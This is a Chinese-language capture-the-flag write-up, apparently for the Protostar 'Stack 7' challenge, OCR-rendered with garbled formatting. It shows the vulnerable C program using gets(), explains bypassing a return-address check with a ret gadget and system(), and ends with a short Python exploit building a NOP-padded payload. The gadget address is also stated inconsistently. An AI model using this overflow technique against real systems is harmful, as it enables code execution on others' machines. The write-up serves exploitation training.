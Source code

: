 # Stack 7

## （一） 题目：

```
   \#include &lt;stdlib.h&gt;
```

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

char \*getpath\(\)

{

char buffer\[64\];

unsigned int ret;

printf\("input path please: "\); fflush\(stdout\);

gets\(buffer\);

ret = \_\_builtin\_return\_address\(0\);

if\(\(ret & 0xb0000000\) == 0xb0000000\) {

```
  printf\("bzzzt \(%p\)\n", ret\);

  \_exit\(1\);
```

}

printf\("got path %s\n", buffer\);

return strdup\(buffer\);

}

int main\(int argc, char \*\*argv\)

{

getpath\(\);

}

## （二）解题过程：

如图：![](/png/41.png)

思路：

1） 参照stack5 stack6的方法处理 栈溢出

2）调试coredump的方法

不同于stack6，本题限制返回地址不可以是库函数，比如不可是system\(\).这个限制仅仅限制在第一次返回时候，所以意味着，可以利用ROP方法，用一个gadget,后面可以正常跟shellcode. 使用了过滤， 所以不能使用堆栈以及环境变量以及libc库的地址来覆盖返回地址。

![](/png/42.png)

**objdump命令是Linux下的反汇编目标文件或者可执行文件的命令，它还有其他作用，下面以ELF格式可执行文件test为例详细介绍：**

objdump -f test  显示test的文件头信息

objdump -d test  反汇编test中的需要执行指令的那些section

objdump -D test  与-d类似，但反汇编test中的所有section

objdump -h test  显示test的Section Header信息

objdump -x test  显示test的全部Header信息

objdump -s test  除了显示test的全部Header信息，还显示他们对应的十六进制文件代码

输出到txt文件objdump -s test.so&gt;test.txt

同时可以用命nm,strace,gdb.

构造payload:

nop nop + ret + system\(\) +参数

8048617:    c3                       ret

![](/png/43.png)

76个nop+ ret地址+ system地址+ 环境变量地址

设置环境变量export TTE="whoami"

再利用通用的地址获取代码getaddress.c

![](/png/44.png)

现在所有的要素都有了。

\x90 \*76 + 0x8040617 +0xb7ecffb0 + 0xbfffff47

漏洞利用代码编写如下：

exploit.py

\#!/usr/bin/env python

offset = 76

nopsled = "\x90"\*offset

ret = "\x17\x06\x04\x08"

system = "\xb0\xff\xec\xb7"

argv\_addr = "\x47\xff\xff\xbf"

print nopsled + "FAKE" +  ret + system + "FAKE" + argv\_addr

执行后，会出现段错误。






